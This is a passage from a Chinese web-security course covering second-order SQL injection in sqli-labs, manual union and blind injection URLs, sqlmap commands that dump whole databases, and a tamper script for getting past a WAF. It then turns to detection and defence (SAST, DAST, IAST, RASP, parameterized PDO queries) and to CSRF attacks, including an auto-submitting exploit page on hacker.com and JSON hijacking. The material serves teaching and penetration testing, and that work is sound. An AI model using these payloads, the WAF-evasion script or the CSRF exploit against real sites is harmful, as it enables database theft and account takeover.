include("../sql-connections/sql-connect.php");
if (isset($_POST['submit']))
{
# 校验用户的输入数据，分别是用户、密码、重新输入的密码
$username= mysql_escape_string($_POST['username']) ;
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);
echo "<font size='3' color='#FFFF00'>";
#查询输入的用户名是否存在，若存在就提醒并停止创建账号
$sql = "select count(*) from users where username='$username'";
$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
$row = mysql_fetch_row($res); # 获取查询结果
//print_r($row);
if (!$row[0]== 0)
{
?>
<script>alert("The username Already exists, Please choose a different username ")</script>;
<?php
header('refresh:1, url=new_user.php');
}
else
{
if ($pass==$re_pass)
{
# 若用户名不存在，就创建新的账号和密码
$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
mysql_query($sql) or die('Error Creating your user account, : '.mysql_error());
echo "</br>";
echo "<center><img src=../images/Less-24-user-created.jpg><font size='3' color='#FFFF00'>";
//echo "<h1>User Created Successfully</h1>";
echo "</br>";
echo "</br>";
echo "</br>";
echo "</br>Redirecting you to login page in 5 sec................";
echo "<font size='2'>";
echo "</br>If it does not redirect, click the home button on top right</center>";
header('refresh:5, url=index.php');
}
else
{
?>
<script>alert('Please make sure that password field and retype password match correctly')</script>
<?php
header('refresh:1, url=new_user.php');
}
}
}
?>
通过源码可以发现这里的输入参数都被过滤了，然后将新建的用户名和密码插入 到了数据库中。这是第一次将数据带入数据库，但没有产生注入漏洞，我们需要 继续往下分析，寻找有没有可能存在的其他注入点。
重新回头再看下登录成功后跳转的 logged-in.php文件源码，它会把密码以表单 形式提交到 pass_change.php：
<form name="mylogin" method="POST" action="pass_change.php">
先看下 pass_change.php 文件源码：
if (isset($_POST['submit']))
{
# Validating the user input........
$username= $_SESSION["username"]; // 从数据库取出的用户名未过滤
$curr_pass= mysql_real_escape_string($_POST['current_password']);
$pass= mysql_real_escape_string($_POST['password']);
$re_pass= mysql_real_escape_string($_POST['re_password']);
if($pass==$re_pass)
{
# 未过滤的用户名被带入 SQL 语句，造成 SQL 注入漏洞
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
$row = mysql_affected_rows();
echo '<font size="3" color="#FFFF00">';
echo '<center>';
if($row==1)
{
echo "Password successfully updated";
}
else
{
header('Location: failed.php');
//echo 'You tried to be smart, Try harder!!!! :( ';
}
}
else
{
echo '<font size="5" color="#FFFF00"><center>';
echo "Make sure New Password and Retype Password fields have same value";
header('refresh:2, url=index.php');
}
}
可以看到，从数据库取出来的用户名并没有转义，而我们又可以向数据库插入可 控的用户名，即输入的用户名第一次被转义（非过滤），但拿出来使用时并未做 再转义，这种 写数据时转义，读数据时又未转义，造成了二次注入漏洞的发生 。 如果第一次存储时直接将恶意字符过滤掉的话，那第二次使用就没有问题。
因此，我们可以采用如下的攻击步骤。
（1）注册一个专门用来攻击的用户名，比如 admin' or 1=1#，密码为 test。
图 4：注册新的用户名
（2）登录新注册的账号。
图 5：登录新账号
（3）修改上面注册的用户密码为 hacker。
图 6：修改密码
（4）最终用户名 admin' or 1=1# 被注入 SQL执行，导致所有用户密码都被修 改为 hacker。
mysql> select * from users; +----+----------------+----------+ | id | username | password | +----+----------------+----------+ | 1 | Dumb | hacker | | 2 | Angelina | hacker | | 3 | Dummy | hacker | | 4 | secure | hacker | | 5 | stupid | hacker | | 6 | superman | hacker | | 7 | batman | hacker | | 8 | admin | hacker | | 9 | admin1 | hacker | | 10 | admin2 | hacker | | 11 | admin3 | hacker | | 12 | dhakkan | hacker | | 14 | admin4 | hacker | | 15 | 1 | hacker | | 17 | admin' or 1=1# | hacker | +----+----------------+----------+ 15 rows in set (0.00 sec)
（5）尝试用密码 hacker 登录账号 admin，如下所示，登录成功！
图 7： 登录成功
你看，从前面一步步地寻找漏洞，到发现 SQL注入漏洞，并成功利用漏洞登录账 号，哪怕不知道正确的密码是什么，也可以登录，这正是SQL 注入神奇的地方所 在。
手工注入
为了让你更好地理解 SQL注入漏洞的利用，我会一步步地构造注入参数去利用漏 洞，直到最终拿到账号密码，这样在后面通过工具自动化利用时，你也能更容易 地理解其背后的逻辑。
在注入的过程中，常用到的会有以下几个步骤：
- 获取字段数
- 枚举系统数据库名
- 获取当前数据库名
- 枚举数据库中的表名
- 枚举表中的字段名
- 获取字段值
- 盲注猜解字符串。
这些步骤并不是一定的，我只是列举了一些比较常用的，希望对你能有所帮助。
（1）获取字段数
在“第06讲”中我讲到了“ 联合查询注入 ”，我们使用 Union查询注入爆出 了账号和密码，但那是已知字段名的情况下。
在真实的漏洞利用场景中，我们需要自己通过 SQL注入获取字段名，在此之前还 得去获取字段数。前面使用的是 union select 1,2,3… 的方式不断追加查询 的字段数来猜测，但如果业务就有很多的字段数，这个方法就有点烦琐了。因此， 这里介绍另一种更加简便的方法。
通过 order 做字段排序，可以猜解出正确的字段数：
order by n # 通过不断尝试 n 的值直到出错，那么正确字段数就是 n-1
这种方法有时会用来判断是否存在 SQL注入漏洞，同时在使用联合查询方法时， 也可以用来获取读取数据。
以 sqli-labs 第 2题为例，构建以下两个不同的请求会发现返回结果是不一样 的，当使用利用“1 order by 3”作为 id 参数时，其返回正常；但当使用“1 order by 4”时却返回错误了：
正常：http://localhost/Less-2?id=1 order by 3--+ 错误：http://localhost/Less-2?id=1 order by 4--+，提示“Unknown column '4' in 'order clause'”
这就说明正确的字段数是 3，因为当用于排序的字段数大于总字段数时会出错。
（2）枚举系统数据库名
网站上可能会有多个数据库，为了更直接地查看包含业务数据的数据库，我们先 枚举出系统的数据库名，然后根据数据库名来猜测有敏感信息的可能性，再针对 那个数据库进行测试。
在版本号 5.0 以上的 MySQL 中，数据库名存放在 information_schema数据库 下的 schemata 表的 schema_name 字段中：
mysql> select null,null,schema_name from information_schema.schemata; +------+------+--------------------+ | NULL | NULL | schema_name | +------+------+--------------------+ | NULL | NULL | information_schema | | NULL | NULL | challenges | | NULL | NULL | mysql | | NULL | NULL | performance_schema | | NULL | NULL | security | +------+------+--------------------+ 5 rows in set (0.00 sec)
从第一步我们得知字段数是 3 个，那么我们就可以通过 select 读取这 3个字 段的内容。由于这里的测试题目，在网页上只显示 1个字段值，所以我们可以用 group_concat函数将所有的数据库名连接起来，一次性地将多个字段值放在一个 字段中显示。这里我把它放在了第3 个字段中：
http://localhost/Less-2/?id=0 union select 1,2,group_concat(schema_name) from information_schema.schemata
图 8： 系统数据库名
可以看到各个数据库名已经回显出来了。
（3）获取当前数据库名
通过当前页面的功能，我们可以知道它当前的数据库会涉及哪些数据，比如当前 是账号创建和登录的页面，数据库必然包含账号密码信息，我们就可以先获取当 前数据库名，后面再用来读取数据库中的字段值。MySQL提供的 database() 函 数可用来获取数据库名，因此我们可以像下面这样构建URL：
http://localhost/Less-2/?id=0 union select 1,2,database()--+
访问后我们得到当前数据库名为security，接下来就可以去尝试读取该数据库内 的内容。
（4）枚举数据库中的表名
通过以下语句获取存储账号密码的表名 users：
http://localhost/Less-2/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
访问上述特意构造的链接后，页面返回以下内容：
图 9：数据库中的表名
（5）枚举表中的字段名
得到表名后，我们可以先看看有哪些字段名，为后面获取字段值做铺垫。由于表 information_schema.columns中包含字段列表信息，因此我们可以通过它获取每 个字段的名称，构造以下 URL获取：
http://localhost/Less-2/?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--+
访问后页面返回以下内容，得到表中的各个字段名：
图 10：表中的字段名
（6）获取字段值
前面我们已经拿到字段名、表名，接下来就可以直接通过 select读取相应字段 的值，比如此处用来获取 username 和 password 的值的 URL请求：
http://localhost/Less-2/?id=0 union select 1,2,group_concat(username,': ',password) from users--+
访问后页面返回各字段值：
图 11：各字段的值
（7）盲注猜解字符串
前面的示例都是在有错误回显的情况下，通过 SQL注入获得我们想要的用户信息， 但有时在渗透测试时，网站并没有错误回显，此时就只能去盲注猜解出数据库名、 字段名和值等关键信息。盲注猜解字符串的主要方式有布尔型盲注和基于时间延 迟盲注，相关的知识我在《06 | SQL 注入：小心数据库被拖走（上）》中介绍 过了。
布尔型盲注：
http://localhost/Less-2/?id=1 and ascii(substr((select database()),1,1))>110--+ 判断数据库名的第一个字符的 ascii 值是否大于 110('H')
基于时间延迟盲注：
http://localhost/Less-2/?id=1 union select if(SUBSTRING(password,1,4)='Dumb',sleep(5),1),2,3 from users--+ 提取密码前四个字符做判断，正确就延迟 5 秒，错误返回 1
自动化利用漏洞
手工注入是个体力活，效率很慢，如果能自动化地利用漏洞，就可以解放双手， 省下不少时间。因此，通常我们不会使用手工注入的方式。
下面我就来介绍如何利用 sqlmap 实现 SQL 注入漏洞的自动化利用。
使用 sqlmap 拖库
当前在 SQL 注入漏洞利用工具中，sqlmap绝对是最常用的，前文也多次提到它， 这里我们就尝试使用 sqlmap 实现拖库。
借助 sqlmap 我们可以通过简单的参数自动完成漏洞的利用，既不用记过多的 SQL语句，也会更加高效。下面我会介绍一些常用的命令参数，通过这些参数， 我们能实现注入自动化。具体的流程和手工注入一样，这里就不再赘述了。
（1）使用 –dbs 参数获取数据库名称 （注意：这里需要 sudo，否则无法访 问docker 容器中的网站），示例命令如下：
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dbs

图 12：使用 –dbs 参数获取数据库名称
输出的对应 payload也是学习各种注入技巧的参考资料，对于渗透测试者、漏洞 扫描器、WAF开发者需要研究的重要资源，有些扫描器干脆直接用 sqlmap，或者 把它的所有payload 扣出来使用。
（2）使用 –current-db 参数获取当前数据库 ，示例命令如下：
./sqlmap.py -u "http://localhost/Less-2/?id=1" --current-db
图 13：使用 –current-db 参数获取当前数据库
（3）使用 –tables 参数枚举表名 ，示例命令如下 ：
./sqlmap.py -u "http://localhost/Less-2/?id=1" --tables -D 'security'
图 14：使用 –tables 参数枚举表名
（4）使用 –columns 参数枚举字段名 ，示例命令如下：
./sqlmap.py -u "http://localhost/Less-2/?id=1" --columns -T "users" -D "security"
图 15：使用 –columns 参数枚举字段名
（5）使用 –dump 参数批量获取字段值 ，示例命令如下：
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump -C "id,password,username" -T "users" -D "security"
图 16：使用 –dump 参数批量获取字段值
（6）使用 –dump-all 参数导出整个数据库 。
这个方法耗时较长，还有很多无价值信息，但却是最简单的拖库姿势，示例命令如下：
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump-all
上述方法导出的数据文件存放路径会在命令行给出，数据以 csv文件形式保存到 本地：
Ubuntu# pwd /root/.local/share/sqlmap/output/localhost/dump Ubuntu# tree . ├── challenges │ └── 6EAED22Z6T.csv ├── information_schema │ ├── CHARACTER_SETS.csv │ ├── COLLATION_CHARACTER_SET_APPLICABILITY.csv │ ├── COLLATIONS.csv │ ├── COLUMN_PRIVILEGES.csv │ ├── COLUMNS.csv │ ├── ...... │ ├── SCHEMATA.csv │ ├── SESSION_STATUS.csv │ ├── SESSION_VARIABLES.csv │ ├── STATISTICS.csv │ ├── USER_PRIVILEGES.csv │ └── VIEWS.csv ├── mysql │ ├── help_category.csv │ ├── help_keyword.csv │ ├── help_relation.csv │ ├── help_topic.csv │ ├── proxies_priv.csv │ ├── servers.csv │ └── user.csv ├── performance_schema │ ├── cond_instances.csv │ ├── ...... │ └── threads.csv └── security ├── emails.csv ├── referers.csv ├── uagents.csv ├── users.csv └── users.csv.1 5 directories, 70 files Ubuntu# cat /root/.local/share/sqlmap/output/localhost/dump/security/users.csv id,username,password 1,Dumb,Dumb 2,Angelina,I-kill-you 3,Dummy,p@ssword 4,secure,crappy 5,stupid,stupidity 6,superman,genious 7,batman,mob!le 8,admin,admin 9,admin1,admin1 10,admin2,admin2 11,admin3,admin3 12,dhakkan,dumbo 14,admin4,admin4
利用 tamper 绕过 WAF
在云时代网络中，很多部署网站的服务器都会提供 WAF（Web防火墙）服务。在 未部署的情况下，云厂商如果检测到 Web攻击请求，可能会发短信通知你开启 WAF服务。之前我在一次渗透测试工作中就是如此：原本未部署 WAF 的网站，在 SQL注入的过程中，突然就开启 WAF 拦截了。
tamper 正是对 sqlmap 进行扩展的一系列脚本，可在原生 payload的基础上做 进一步的处理以绕过 WAF 拦截。sqlmap 里有个 tamper目录，里面放着很多脚 本，比如编码、字符替换、换行符插入。
我们先来看下 sqlmap 自带的一个最简单的，用于转义单引号的 tamper 脚本：
#!/usr/bin/env python """ Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/) See the file 'LICENSE' for copying permission """ from lib.core.enums import PRIORITY __priority__ = PRIORITY.NORMAL def dependencies(): pass def tamper(payload, **kwargs): """ Slash escape single and double quotes (e.g. ' -> \') >>> tamper('1" AND SLEEP(5)#') '1\\\\" AND SLEEP(5)#' """ return payload.replace("'", "\\'").replace('"', '\\"')
它主要由 3 个部分组成。
- priority ：代表优先级，当使用多个脚本时可定义执行顺序。
- dependencies：对依赖环境的声明，比如输出日志，可不写。
- tamper：主函数。payload 代表 sqlmap 自带的测试语句；kwargs代表请求参 数，可以用来修改 http 头信息。 tamper 主要是对原生 payload做一些替 换处理，这是绕过 WAF 的关键点 。
下面以某知名网站的 SQL 注入为例。常规的注入语句都被拦截了，后来在 fuzz 测试 WAF 时，发现使用一些特殊符号可以绕过WAF（换行符也经常被用来绕过）， 而 MySQL 中有些特殊字符又相当于空格：
%01, %02, %03, %04, %05, %06, %07, %08, %09, %0a, %0b, %0c, %0d, %0e, %0f, %10, %11, %12, %13, %14, %15, %16, %17, %18, %19, %1a, %1b, %1c, %1d, %1e, %1f, %20
我们尝试在每个 SQL 关键词中随机加个%1e。测试确认可绕过 WAF后，接下来就 是写 tamper 让 sqlmap 实现自动化绕过 WAF。
import re from lib.core.common import randomRange from lib.core.data import kb # kb 中存放着 sqlmap 的一些配置信息 from lib.core.enums import PRIORITY __priority__ = PRIORITY.LOW def tamper(payload, **kwargs): result = payload if payload: for match in re.finditer(r"\b[A-Za-z_]+\b", payload): word = match.group() if len(word) < 2: continue if word.upper() in kb.keywords: # 判断是否属于 SQL 关键词 str = word[0] for i in xrange(1, len(word) - 1): str += "%s%s" % ("%1e" if randomRange(0, 1) else "", word[i]) str += word[-1] if "%1e" not in str: index = randomRange(1, len(word) - 1) str = word[:index] + "%1e" + word[index:] result = result.replace(word, str) return result
上述代码会判断输入的字符串是否有 SQL关键词，如果有就随机在关键词中间插 入%1e。
假设原注入语句为：
and ascii(substr((select database()),1,1))>64
经转换后变成：
a%1end a%1escii(sub%1estr((s%1eelect da%1etabase()),1,1))>64
最后调用 sqlmap 执行即可：
./sqlmap.py -u url --tamper=bypasswaf.py --dbs
到这里咱们就完成请求参数的修改了，这是用来绕过 WAF 是非常有效的手段。
总结
这一讲我主要介绍了二次注入产生的原理，以及如何利用 SQL注入漏洞，包括手 工注入及使用 sqlmap 实现自动化漏洞。
在个人渗透测试经历中，如果要挖掘和利用 SQL注入漏洞，那么手工注入的技能 是必备的，毕竟 sqlmap也有扫不出来的情况。一旦能够手工注入成功，哪怕 sqlmap检测不出来，我们也可以借助 tamper 脚本构造可成功注入的语句，然后 再利用sqlmap 与 tamper 脚本完成自动化的利用。无论如何，sqlmap 一直是 SQL注入领域最优秀的工具，没有之一，非常值得学习和研究。
那我们如何利用 SQL 注入写入后门，进而拿到服务器的 shell 权限，比如 sqlmap 中的–os-shell 参数使用，还有 MySQL 新特性 secure_file_priv对读 写文件的影响呢？欢迎在留言区分享你的看法。
下一讲，我将带你了解如何检测和防御 SQL 注入，到时见~
SQL 注入：漏洞的检测与防御
上一讲我介绍了 SQL注入中的二次注入，二次注入是由于第一次带入参数时做了 安全转义，但开发人员在二次使用时并没有做转义，导致第二次使用时产生了注 入。前两讲中我介绍了SQL 注入的方法，这一讲我会讲接如何检测和防御 SQL 注入。
自动化检测 SQL 注入
如果开发者想尽早地发现 SQL注入的问题，就需要主动对自己写的程序做一些安 全检测。现在，让我来带你了解如何自动化地检测SQL 注入漏洞。
目前检测 Web 漏洞的方式共有 3种：SAST（静态应用安全测试）、DAST（动态 应用安全测试）和IAST（交互式应用安全测试）。
SAST（静态应用安全测试）
SAST（Static Application Security Testing，静态应用程序安全测试）是通 过分应用程序源代码以提早发现安全漏洞，也包括二进制文件的静态逆向分析。 在产品形式上，主要体现为代码审计系统等。
SAST 的工作流程如下图所示：
图 1：SAST 工作流程
PHP 代码的商业 SAST 产品有 RIPS、CheckMax 等，其中以 RIPS审计能力最强， 我还没见过比它更优秀的 PHP 代码审计产品。RIPS早期有开源的社区版，后来 走商业化路线，今年已经被 SonarSource收购，联合其他语言的代码审计功能打 包出售。
其他SAST工具：
- Checkmarx: 用于发现各种安全漏洞和漏洞的静态代码分析工具。
- Fortify Static Code Analyzer: 用于识别应用程序中的安全漏洞和漏洞的工具。
- Coverty: 静态分析工具，用于发现代码中的缺陷和安全漏洞。
- PMD: Java 代码的静态代码分析工具，可以帮助发现潜在的问题和不良实践。
图 2：RIPS
SAST分析比较全面，漏洞发现率高，哪怕是当前未能执行到的代码，也可能被发 现到漏洞，但是对于它最大的挑战是如何降低误报率。
代码审计本质上是在误报率与发现率之间相互协调，直到在可接受的范围内找到 一个平衡的过程。如果发现率很高，但其中包含过多的误报，告警量多到无法运 营的程度，那也等同于没发现。就像外面反馈一个网站存在漏洞，在排查代码审 计系统之前的审计结果时，发现有过告警，但由于同一时期的告警量太多导致无 法及时跟进，发现了却未修复，就和没发现一样。
现在企业基本采用多种方式结合来测试，而不是单一地采用 SAST 方法。
DAST（动态应用安全测试）
DAST（Dynamic Application Security Testing，动态应用程序安全测试）是对 应用程序进行黑盒分析，通常在测试或运行阶段分析应用程序的动态运行状态， 通过模拟黑客行为对应用程序进行动态攻击，分析应用程序的反应，从而确定是 否存在漏洞。
DAST 的工作流程如下图所示：
图 3：DAST 工作流程
DAST 在产品形式上主要体现为漏洞扫描器，著名的商业产品有 Acunetix Web Vulnerability Scanner（AWVS，不过近来的版本误报很多）、AppScan，还有国 内长亭在 GitHub上放出的 xray，这些都是许多“白帽子”喜欢用的扫描器。
图 4：AWVS
DAST 通过动态发送 payload来测试漏洞，所以准确率相对较高，而且检测出来 后就直接有现成的 PoC（Proof of Concept，概念验证）可以验证。但如果有些 代码未执行，就无法发现。因此，跟SAST 结合使用是最好的方式。
IAST（交互式应用安全测试）
IAST（Interactive Application Security Testing，交互式应用安全测试）是 近几年兴起的一种应用安全测试新技术，曾被Gartner 咨询公司列为网络安全领 域的 Top 10 技术之一。IAST 融合了 DAST 和SAST 的优势，漏洞检出率极高、 误报率极低，同时可以定位到 API接口和代码片段。
IAST 主要有代理和插桩两种模式，其他的 VPN或流量镜像都是类似代理的流量 采集方式。IAST代理与插桩的工作流程如下图所示：
图 5：IAST 工作流程
以往的 DAST 漏洞扫描时，如果爬虫不到位、URL 收集不全就无法扫描到，IAST 的流量采集可以解决此类问题。同时，IAST 会借助 Hook收集应用执行信息，比 如 SQL语句的执行函数。通过检查真正执行的语句，判断其是否包含攻击性或专 用测试标记的payload，IAST 可以非常精确地识别出漏洞。
比较著名的 IAST 产品有百度的 OpenRASP-IAST，它是在 OpenRASP的基础上引 入了 DAST 扫描器，组合成完整的 IAST。除此之外，AWVS AcuSensor和 AppScan 也都引入 IAST 技术，支持在服务端部署 Agent去监控程序并采集信息， 再提供给扫描器进行进一步的扫描。
图 6：OpenRASP-IAST
既然聊到 RASP，我就顺便说一下 RASP 与 IAST 的区别。
RASP
RASP（Runtime Application Self-Protection）是一项运行时应用程序自我保 护的安全技术，通过搜集和分析应用运行时的相关信息来检测和阻止针对应用本 身的攻击。RASP和 IAST 使用相同的 Agent 技术，不同之处在于 RASP 更偏向 于拦截防御，而IAST 更偏向于安全测试，若将 RASP 结合 DAST 共用的话，就 可以达到 IAST 的效果了。
防御 SQL 注入
我们检测到 SQL 注入漏洞，或者外部报告过来，那么又该如何修复漏洞，防止 被SQL 注入攻击呢？通常防御 SQL 注入的方法有白名单、参数化查询、WAF、 RASP等方法，下面我就简单介绍一下。
白名单
如果请求参数有特定值的约束，比如参数是 固定整数值 ，那么就只允许接收
整数；还有就是常量值限制，比如特定的字符串、整数值等。这个时候，最好采
用白名单的方式。我并不建议使用黑名单的方式，比如过滤单引号、SQL关键词，
虽然有部分效果，但在某些场景下仍会被如整数型注入、二次注入、新增的SQL
关键词等方式绕过。
参数化查询
参数化查询是预编译 SQL语句的一种处理方式，所以也叫 预编译查询 ，它可以将
输入数据插入到 SQL语句中的“参数”（即变量）中，防止数据被当作 SQL 语
句执行，从而防止 SQL注入漏洞的产生。
比如在下列语句中，设置 $pwd 变量值为 1 and 1=1 时：
select password from users where id=1;
一般情况下，SQL 语句都会经过 SQL 解析器编译并执行，这意味着 and 语句也 会被编译执行，造成 SQL 注入。
开启参数化查询时，原 SQL语言会先进行预编译处理，为用户输入的每个参数预 留占位符，将编译结果缓存起来。当用户输入恶意构造的and语句时，不做编译 处理，按原语句模板将输入值带入到对应的占位符中，此处即id 参数，也就是 说 1 and 1=1 仅为参数值带入，不作为 SQL 语句编译，那么and 语句就不会被 执行，从而防止 SQL 注入。
不同的开发平台和数据库会有不同的参数化查询方式，本讲主要以 PHP+MySQL环 境为例，有 mysqli 和 PDO（PHP 数据对象）两种扩展使用方式。这里推荐使用 PDO 扩展，因为它与关系数据库类型无关，无论是使用 MySQL，还是 SQL Server、Oracle。
下面是使用 PDO 扩展实现参数化查询的示例代码，通过创建 PDO对象，直接调 用其方法 prepare 和 bindParam就可以实现预编译处理，将用户输入数据绑定 到特定参数，避免输入数据被当作SQL 关键词来解析。
$pdo = new PDO("mysql:host=localhost;dbname=database", "dbusername", "dbpassword");
$query = "SELECT * FROM users WHERE (name = :username) and (password = :password)";
$statement = $pdo->prepare($query, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
$statement->bindParam(":username", $username, PDO::PARAM_STR, 10);
$statement->bindParam(":password", $password, PDO::PARAM_STR, 12);
$statement->execute();
$statement->closeCursor();
$pdo = null;
在使用参数化查询时应注意以下 3 点：
- 在每个数据库查询中都使用参数化查询，避免被二次注入；
- 插入查询中的每一个输入参数都应进行参数化查询，避免部分参数被注入；
- 参数名不能使用指定查询中的表和字段名，避免被误操作。
WAF
WAF（Web防火墙）能够抵挡住大部分的攻击，几乎是当前各网站必备的安全产品。 但它也不是无懈可击的，难免会被绕过。不过安全本身就是为了不断提高攻击成 本而设立的，并不是为了完全、绝对地解决入侵问题。这也是很难实现的。
业界主流的 WAF 产品，可以参考 Garnet 的魔力象限。下面是 2019 年的 Web 应用防火墙魔力象限：
图 7：Web 应用防火墙魔力象限
领导者产品是 Imperva 和Akamai，但这两款在国内的知名度并不高。国内的产 品只有阿里云入榜了。其他国内常用产品有腾讯云、长亭雷池、华为云。结合云 平台服务能力直接部署WAF 是最简便的方式。基于此前个人的 WAF 测试，我心 目中的国内 WAF产品排名如下：
阿里云 WAF > 腾讯云 WAF > 华为云 WAF > 长亭雷池
RASP
前面已经介绍过 RASP，以及它与 IAST 的区别。RASP技术是当前安全防御技术 领域的一大趋势，很多国内厂商都在做，联合 IAST一块，毕竟核心技术是共用 的。
WAF无法感知应用程序的上下文，也无法输出漏洞攻击链，对定位漏洞代码的帮 助也相当有限。RASP不用考虑网络请求中的各种复杂的数据处理过程，只需要在 对应的漏洞触发函数进行Hook 插桩检测等操作，同时 RASP 能够给出漏洞触发 的程序上下文，帮助开发人员和安全人员快速定位漏洞代码，并实现漏洞的检测、 告警和阻断。
RASP 与 WAF 是互补的两种技术实现，而非以新换旧。利用 RASP 对 WAF 进行 有效的补充，可以构建更加完善的安全防御体系。
总结
关于 SQL 注入漏洞的相关知识，到这里就结束了，我们花了 3 讲来学习 SQL注 入的技术以及如何检测和防御 SQL 注入。这里我主要介绍了一些检测与防御SQL 注入的方法，供企业开发者参考。对于个人，你也可以通过购买 WAF来防止自己 的网站被入侵。
国内的各大云平台上都已经集成 WAF服务，可以一键部署使用，十分方便。如果 你有自己的云服务器，可以建个sqlilab 靶场，用 sqlmap 去利用漏洞，然后对 比开启 WAF 前后的变化，这可以帮你更好地理解 SQL 注入漏洞。
关于 SQL注入漏洞的检测与防御，你认为还有哪些其他方法呢？欢迎在留言区分 享。
下一讲，我将带你了解 CSRF（跨站伪造请求）漏洞的相关原理，到时见~
CSRF 漏洞：谁改了我的密码
上一讲我介绍了 SQL注入这种常见而又危害严重的漏洞，相信你对它已经有了一 定的认识。这一讲我来介绍下被OWASP 组织列为十大 Web 漏洞威胁之一的 CSRF （跨站请求伪造）漏洞。因为有“跨站”二字，不少人将它与 XSS 混为一谈， 但其实它们的原理并不相同。
本讲我会从 CSRF 漏洞的产生原理、攻击手法、检测方法和防御手段这 4个方面 出发，全面地介绍 CSRF 漏洞，带你领略 CSRF的危害，并能够自主挖掘和防御 此类漏洞。
什么是 CSRF 漏洞
CSRF（Cross Site Request Forgery，跨站请求伪造，也叫XSRF）漏洞是由于未 校验请求来源，导致攻击者可在第三方站点发起 HTTP 请求，并以受害者的目标 网站登录态（cookie、session等）请求，从而执行一些敏感的业务功能操作， 比如更改密码、修改个人资料、关注好友。
用张时序图来解释会更清楚一些，我把常用的攻击方式也画了上去，如下图所示：
图 1：CSRF 跨站请求伪造原理
从以上可以得知，CSRF 比较依赖业务功能。有时虽然存在 CSRF但并没有实际危 害，也不能算是真正意义上的 CSRF漏洞。比如常规的登录账号功能，如果你不 知道密码就无法登录，而如果知道了，那还需要构造CSRF请求吗？如果是为了实 现多次登录失败，令目标账号暂时无法登录，那么也不需要用CSRF。
如果是一些发消息、发微博的功能，那同样可以产生蠕虫效果，新浪和腾讯微博 就曾发生过好多次此类CSRF 蠕虫漏洞。
图 2：新浪微博 CSRF 蠕虫
在第 4 讲的 XSS 课程中，我曾介绍过 Samy 蠕虫，它利用 XSS漏洞在用户资料 插入一段 JS脚本，致使任何查看它的用户在不知情的情况下执行各种操作（关 注用户、修改个人资料等等），这种可称为“本站请求伪造”（On-site Request Forgery，OSRF）。有些人可能也因此将 CSRF 归类到 XSS中，但注意 此处产生危害的本质是 XSS 造成的，只不过是利用 XSS来发起本站请求伪造， 与跨站请求伪造情况不同。
所以，我个人更偏向将 XSS 与 CSRF当作完全不同的漏洞类型来看待，并不赞成 将 CSRF 归入 XSS 中。
CSRF 分类
从漏洞利用角度来分类的话，CSRF 可以分为 CSRF 读与 CSRF 写。
- CSRF 读 ：通过伪造请求来获取返回的敏感信息，比如用户资料；常见的就 是JSON 劫持（详见下文），以及利用 Flash API 加载页面获取敏感信息。由 于浏览器已经默认禁止 Flash，我就不介绍 Flash CSRF 的攻击手法了。
- CSRF写 ：通过伪造请求去修改网站数据，比如修改密码、发表文章、发送 消息等操作。
CSRF 的攻击手法
以 DVWA 中的 CSRF 题目（Security Level 设置为Low）为例，我们通过一个实 例了解下 CSRF 的常用攻击手法。
图 3：DVWA CSRF 题目
输入密码提交的同时抓包。此处我直接用 Chrome 的 Network 功能（在《01 |武器库：常用的渗透测试工具》中介绍过）：
图 4：更改密码的请求包
抓包后发现只是个 GET请求，那利用起来就简单了：直接构造以下链接发给受害 者，受害者点击后就会被修改密码为你设置的密码。如下所示：
http://127.0.0.1/vulnerabilities/csrf/?password_new={你设置的密码}&password_conf={你设置的密码}&Change=Change
像这种 GET 型的 CSRF 漏洞利用就是仅需要修改下原 GET的参数值，构造个链 接发给对方就可以了；甚至直接使用图片链接嵌入到受害者可能访问的页面（博 客、论坛、邮件等等），也可以实现漏洞的利用，这种利用方式更加隐蔽。
如果是 POST 请求，就需要编写利用代码，用 JS脚本去实现自动提交表单，然 后把它放在自己控制的服务器上。假设存放地址为 http://hacker.com/exploit.html ，再生成短网址 http://dwz.date/d74a 发给 受害者。
图 5：短网址生成
exploit.html 利用代码如下：
<html> <form name = "test" action = "http://127.0.0.1/vulnerabilities/csrf" method = "post" > <input type = "hidden" value="hacker" name="password_new" > <input type = "hidden" value="hacker" name="password_conf" > <input type = "hidden" value="Change" name="Change" > </form> <script>document.test.submit();</script> </html>
这里是就模拟原网站的表单提交内容设置的，每个 input 都添加 type="hidden"的属性是为了不在网页中显示，最后再利用 document.test.submit()去自动提交表单，其中 "test" 是指 form 名单。
如果受害者访问上述包含 exploit.html 的 http://dwz.date/d74a ，就会发起 以下请求：
图 6：通过 POST 请求利用 CSRF 漏洞
DVWA 的 CSRF 题目没有 POST 请求，上述的利用方式主要介绍的是 POST类型的 利用手法。这种方法反而比较常用，相信你在未来的 CSRF测试中能够用上。
JSON 劫持攻击
JSON（JavaScript Object Notation，JavaScript对象符号）是一种可以序列化 任意数据，并能被 JavaScript注释器直接处理的简单数据交换格式。我们来看 一段 JSON格式的包含用户信息的数据：
{
"people":[
{
"name": "Brett",
"email":"Brett@qq.com"
},
{
"name":"Jason",
"Jason@lagou.com"
}
]
}
JSON 劫持是一种特殊的 CSRF 攻击方式，本质上也是未对请求来源做有效校验 导致的，它主要是用来窃取服务器返回的敏感信息。
实现 JSON 劫持主要有两种攻击方式：覆写数据构造器和执行回调函数。
覆写数据构造器
若服务端返回的 JSON数据中包含一个序列化数组，那攻击者就可以重定义数组 构造器，以实现 JSON数据的访问。比如 2006 年的 Gmail 就曾出现过 JSON劫 持联系人列表的漏洞，漏洞 CGI 位于：
http://mail.google.com/mail/?_url_scrubbed_
它会返回联系人列表的 JSON 数据。
[["ct","Your Name","foo@gmail.com"], ["ct","Another Name","bar@gmail.com"] ]
因此，可通过覆盖数组构造器来读取 JSON 数据。
